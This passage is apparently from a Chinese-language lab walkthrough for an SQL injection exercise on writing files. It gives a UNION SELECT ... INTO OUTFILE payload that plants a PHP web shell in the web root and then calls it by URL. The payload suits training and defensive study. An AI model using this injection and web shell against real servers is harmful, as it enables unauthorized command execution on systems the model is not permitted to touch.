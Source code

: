 ![](img/10-5.png)

![](img/10-ans.png)

### 题目 11：Writing Files

注入 `<?php system(pwd); ?>` 并写入到 `/var/www/html/shell1.php` 当中，在 URL 中添加该 Web Shell 文件名并添加 `?id=0`，访问并运行 Web Shell。可通过上述方法使用 `pwd` 命令，查看到当前浏览的文件所在的目录。

```SQL
cn' union select "",'<?php system(pwd); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -
-- URL: <IP>:<Port>/shell1.php?id=0
```
